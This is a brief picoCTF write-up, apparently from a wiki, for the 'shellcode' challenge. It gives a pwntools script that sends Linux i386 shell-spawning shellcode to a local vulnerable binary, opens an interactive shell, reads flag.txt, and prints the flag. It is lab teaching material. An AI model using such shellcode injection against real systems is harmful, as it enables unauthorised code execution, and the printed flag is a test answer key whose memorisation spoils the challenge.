 [Category:Picoctf](/Category:Picoctf "wikilink") This program executes
any input you give it. Can you get a shell? You can find the program in
/problems/shellcode_1_cec2eb801137d645a9f15b9b6af5347a on the shell
server. Source.

`python2`
`>>>`
`from pwn import *`
`sh = process('./vuln')`
`sh.sendlineafter('!\n', asm(shellcraft.i386.linux.sh()))`
`sh.interactive()`

we start the process with pwntools and send assembly of a shell. after
this we get an interactive session and we can do:

`cat flag.txt`

picoCTF{shellc0de_w00h00_26e91a77}